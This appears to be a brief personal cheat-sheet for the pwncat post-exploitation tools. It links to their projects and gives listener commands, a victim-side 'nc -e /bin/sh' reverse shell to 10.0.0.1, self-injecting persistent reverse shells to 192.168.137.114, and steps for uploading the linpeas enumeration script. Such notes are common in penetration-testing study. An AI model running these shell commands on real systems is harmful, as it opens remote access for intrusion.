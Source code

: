 # pwncat (john hammond)

https://github.com/calebstewart/pwncat.

https://pwncat.readthedocs.io/en/latest/usage.html

```
L >pwncat -l 4444
V >nc -e /bin/sh 10.0.0.1 4444
L >cntrl+d 
L >run help
```
``` 
(local) > upload /opt/linpeas.sh

(local) > enum -s -a
```

# pwncat

https://github.com/cytopia/pwncat

unbreakable reverse shells
```
pwncat -l 4444 --self-inject /bin/sh:192.168.137.114:4444
pwncat -l 4444 --self-inject /bin/sh:192.168.137.114:4444+3
cntrl+c 

pwncat -l 4444 -vv
or
nc -lnvp 4444
```
